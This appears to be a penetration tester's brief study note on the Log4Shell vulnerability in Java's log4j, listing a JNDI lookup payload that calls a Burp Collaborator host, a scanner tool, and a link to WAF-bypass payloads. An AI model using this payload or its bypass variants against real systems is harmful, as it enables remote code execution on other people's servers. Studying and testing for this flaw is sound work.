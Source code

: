 # Log4shell
Tags: #java #log4j
Related to:
See also:
Previous:

## Links
Title:
Link:
About:

## Notes
payload:
`${jndi:ldap://xxx.burpcollaborator.net/`

### Tools
https://github.com/fullhunt/log4j-scan
-> Can supply a custom DNS (e.g. burp collaborator)

### Bypass techniques
More advanced payloads to deal with simple WAF counter measures:
https://github.com/Puliczek/CVE-2021-44228-PoC-log4j-bypass-words